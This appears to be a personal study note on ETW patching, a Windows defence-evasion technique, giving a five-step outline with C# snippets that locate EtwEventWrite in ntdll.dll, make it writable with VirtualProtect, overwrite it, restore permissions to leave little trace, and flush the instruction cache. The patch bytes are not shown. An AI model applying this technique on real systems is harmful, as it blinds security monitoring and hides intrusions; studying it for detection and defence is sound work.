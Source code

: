 ![](/assets/img/Pasted image 20230123012257.png)

- Now that we have a basic understanding of the core fundamentals behind the technique, let's look at how it's technically applied.

<u>High-level view of ETW Patching</u>:

	1. Obtain a handle for "EtwEventWrite"
	2. Modify memory permissions of the function
	3. Write opcode bytes to memory
	4. Reset memory permissions of the function (optional)
	5. Flush the instruction cache (optional)

##### Step 1: Obtain the handle for `EtwEventWrite`
- This function is stored in `ntdll.dll`.
- Load the library using `LoadLibrary` then obtain the handle of the `EtwEventWrite` function using `GetProcAddress`:

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

##### Step 2: Modify the `memory permissions` of the function to allow us to write the function.

- The permission of the function is defined by the `flNewProtect` parameter
- `0x40` : enables `X,R or RW access` (memory protection constraints).

```csharp
uint oldProtect;
Win32.VirtualProtect(etwFunction, (UIntPtr)patch.Length, 0x40, out oldProtect);
```

##### Step 3: the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it.
- **Because we are writing to a function and NOT a process**, we can use the infamous `Marshal.Copy`.

		- Basically, this Marshal.Copy API is for instruction patching.
		- This is important since we are not writing on the process' memory but replacing the instructions themselves programmatically.
		- Like how you patch in x32/x64dbg.

##### Step 4: Cleaning our steps to restore memory permissions as they were:

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

	- I guess we need this so there would be little trace to the fact that we patched the function.

##### Step 5: Ensure the patched function will be executed from the instruction cache.

```csharp
Win32.FlushInstructionCache(etwFunction, NULL);
```

